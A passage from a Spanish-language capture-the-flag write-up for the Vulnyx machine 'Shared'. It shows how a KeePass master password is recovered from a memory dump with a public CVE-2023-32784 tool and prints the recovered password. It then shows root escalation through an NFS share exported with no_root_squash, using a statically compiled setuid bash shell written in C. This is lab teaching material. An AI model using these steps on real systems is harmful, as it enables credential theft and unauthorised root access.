Sabiendo esto, ¿qué podemos hacer? Bueno, si nos fijamos en los archivos que obtenemos al descomprimir el archivo, también se nos da “KeePass.DMP”, un archivo *.dmp*. Un archivo *.dmp* es una copia exacta de la memoria RAM del proceso de KeePass en el momento en que se generó el volcado.

Existen herramientas que extraen directamente la clave maestra de este volcado de memoria; de hecho, tiene un CVE asignado, el **CVE-2023-32784**, por lo que podemos realizar la búsqueda en internet de “keepass dump exploit”. De entre todos los resultados, utilizaremos este [repositorio](https://github.com/z-jxy/keepass_dump) de GitHub, que nos comparte una herramienta para llevar a cabo la labor que comentábamos antes: extraer la credencial del volcado de memoria. Sabiendo esto, la descargamos:

```bash
wget https://raw.githubusercontent.com/z-jxy/keepass_dump/refs/heads/main/keepass_dump.py
```

Y la ejecutamos pasándole el archivo de volcado de memoria.

```bash
python3 keepass_dump.py -f KeePass.DMP 
```

{: width="500" }

De esta manera logramos extraer la credencial maestra de KeePass, al menos en su mayoría, ya que el primer carácter no fue capaz de averiguarlo. Aunque, teniendo en cuenta el nombre de la máquina, creo que podemos deducirlo…

Quedaría instalarnos un gestor de contraseñas compatible, como `keepassxc` o `keepass2`, y acceder a la base de datos de credenciales. Una vez instalado, utilizamos la credencial *Shared123%* y lograríamos acceder:



Conseguimos las credenciales de los tres usuarios del sistema; teniendo en cuenta que jackondor cuenta con una nota que pone “Notes”, pivotaremos primero hacia él.

```bash
su jackondor
```

{: width="500" }

Efectivamente, es válida y conseguimos la primera flag de usuario. Vamos a echar un vistazo al resto de usuarios.

{: width="300" }

Parece que la única credencial válida es la del usuario “jackondor”, por lo que vamos a enumerar el sistema desde su contexto para tratar de escalar privilegios.

### Abuso de `no_root_squash` (NFS)

Si recordamos los resultados de los escaneos de puertos y servicios que corren en la máquina víctima, teníamos un servicio NFS que compartía varias carpetas en red y, a priori, parecía un *rabbithole* ya que no se nos compartía nada interesante. Vamos a echar un vistazo a los ficheros de configuración de este servicio, en concreto al */etc/exports*:

```bash
cat /etc/exports
```

{: width="800" }

Para la carpeta */shared/tmp* establecieron un parámetro que nos debería llamar especialmente la atención: `no_root_squash`. Normalmente, en configuraciones de este servicio se suele aplicar una protección llamada `root_squash`, que sirve para que, aunque como cliente del recurso compartido accedas como un usuario con privilegios y ejecutes operaciones con ese usuario en tu máquina, el servidor transforme esas operaciones para que se ejecuten en el recurso compartido como un usuario sin privilegios, normalmente `nobody`.

Sabiendo esto y viendo la opción de configuración que tiene establecida este recurso, podemos intuir por dónde van los tiros: si montamos este recurso en nuestra máquina atacante, accedemos como root y, por ejemplo, creamos un script con permisos *suid* que ejecutemos posteriormente en la máquina víctima, esa ejecución conservará los privilegios del usuario de la máquina cliente en el servidor. Por lo tanto, lo ejecutaríamos como usuario root en el servidor, teniendo así un vector para escalar privilegios.

Así que vamos a ello: primero nos montamos el recurso con la configuración insegura en nuestra máquina atacante:

```bash
mount -t nfs 10.0.2.22:/shared/tmp /mnt/NFS
```

Y, por ejemplo, para evitar problemas de dependencias y demás, crearemos un script en C que ejecute una shell bash, lo compilaremos y posteriormente le asignaremos permisos *suid*.

```bash
cd /mnt/NFS
```

```c
#include <unistd.h>
int main() {
    setuid(0);
    setgid(0);
    execl("/bin/bash", "bash", NULL);
    return 0;
}
```
{: file="privesc.c" }

Lo compilamos:

```bash
gcc -static privesc.c -o bash
chmod +sx bash
```

Desde el servidor, si vemos el contenido de la carpeta compartida:

{: width="500" }

Obtenemos un binario que nos *spawnea* una `bash` con permisos *suid* y que, por lo tanto, podemos utilizar para escalar privilegios.

```bash
./bash -p 
```

{: width="500" }

{: width="500" }

De esta forma habríamos obtenido la flag de root y completado la máquina Shared de Vulnyx!!
